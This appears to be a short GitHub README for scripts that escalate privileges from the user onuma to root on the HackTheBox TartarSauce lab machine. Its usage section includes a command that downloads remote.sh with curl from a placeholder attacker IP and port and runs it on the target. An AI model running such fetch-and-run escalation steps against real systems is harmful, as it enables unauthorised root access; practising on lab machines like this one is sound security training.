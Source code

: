 # HackTheBox Environment
- Macine: [TartarSauce](https://app.hackthebox.com/machines/TartarSauce)
- Info: HackTheBox TartarSauce, Privilege Escalation process from onuma to root.

# Usage

change your own local ip and port inside scripts.

- local host
```
git clone
cd
chmod +x local.sh
./local.sh
```

- remote host
```bash
curl -O http://<IP>:<PORT>/remote.sh
./remote.sh
```
